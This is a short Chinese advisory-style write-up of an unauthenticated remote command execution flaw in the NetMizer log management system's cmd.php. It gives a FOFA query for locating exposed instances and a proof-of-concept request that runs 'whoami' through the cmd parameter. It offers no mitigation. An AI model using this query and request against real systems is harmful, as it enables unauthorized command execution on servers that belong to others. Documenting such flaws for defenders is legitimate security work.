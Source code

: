 # NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

<a-checkbox checked>NetMizer 日志管理系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="NetMizer 日志管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628834857867-6694d560-2345-49e8-9460-2296c316a7a3-20220314133236391.png)

验证POC

```python
/data/manage/cmd.php?cmd=whoami
```

![img](../../../.vuepress/public/img/1637918595617-0674c271-9040-4d74-acc4-1e0c1d71ab7c.png)



若有收获，就点个赞吧
